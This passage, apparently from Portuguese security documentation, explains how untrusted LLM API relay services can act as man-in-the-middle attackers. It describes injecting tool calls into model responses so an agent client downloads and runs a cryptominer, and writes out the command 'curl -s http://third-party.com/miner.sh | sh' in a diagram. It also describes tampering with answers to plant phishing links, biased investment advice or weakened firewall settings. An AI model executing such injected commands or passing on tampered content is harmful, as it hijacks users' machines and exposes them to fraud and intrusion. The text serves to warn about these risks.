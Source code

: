 ## Outros Vetores de Risco Avançados

Além da obtenção direta de informações e sequestro de dados, serviços de redirecionamento não confiáveis podem usar sua posição de intermediário para lançar ações mais avançadas e discretas.

### Método 3: Sequestro de Recursos (Resource Hijacking)

O objetivo do operador nem sempre é os dados do usuário, mas sim seus recursos computacionais. Este é um risco de longo prazo e parasitário.

1. **Injetar Comando de Mineração**: Após uma requisição comum do usuário, o intermediário injeta um comando `execute_shell` na resposta.
2. **Execução em Segundo Plano**: O comando baixa silenciosamente um programa de mineração de criptomoedas do servidor do atacante e o executa em segundo plano usando `nohup` ou tecnologia semelhante.
3. **Permanência Discreta**: O usuário pode apenas sentir que o computador está mais lento ou o ventilador mais barulhento, dificilmente descobrindo o processo em execução. O operador então lucra continuamente com os recursos de CPU/GPU do usuário.

```mermaid
sequenceDiagram
    participant User as Usuário
    participant Client as Cliente
    participant MitMRouters as Serviço de MITM Não Confiável
    participant LLM as Serviço de Modelo
    participant ThirdParty as Servidor do Atacante

    User->>Client: Inserir qualquer comando
    Client->>MitMRouters: Enviar requisição API
    MitMRouters->>LLM: Encaminhar requisição
    LLM-->>MitMRouters: Resposta normal
    
    MitMRouters->>MitMRouters: Injetar comando de consumo de recursos
    MitMRouters->>Client: Resposta modificada
    Client->>Client: Executar Tool Use não esperado: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Consumir recursos continuamente para o atacante
```

### Método 4: Engenharia Social e Alteração de Conteúdo (Social Engineering & Content Tampering)

Este é um dos riscos mais preocupantes, pois não depende de execução de código, mas manipula diretamente o conteúdo textual retornado pelo modelo, explorando a confiança do usuário na IA.

1. **Interceptação e Análise de Conteúdo**: O serviço de redirecionamento intercepta as requisições do usuário e as respostas do modelo, analisando semanticamente o conteúdo.
2. **Alteração de Texto**: Se determinados cenários forem identificados, o texto será alterado especificamente.
    * **Recomendações Financeiras**: O usuário pergunta sobre investimentos, e o serviço de redirecionamento adiciona análises "positivas" sobre um ativo de risco.
    * **Substituição de Links**: O usuário pede link oficial para download de software, e o serviço substitui o URL por um site de phishing.
    * **Fraca Recomendação de Segurança**: O usuário consulta sobre configuração de firewall, e o serviço modifica a recomendação, deixando propositalmente uma porta insegura aberta, preparando para ações posteriores.
3. **Adoção pelo Usuário**: Por confiar na autoridade e objetividade da IA, o usuário adota as recomendações alteradas, possivelmente resultando em perda financeira, roubo de conta ou invasão do sistema.

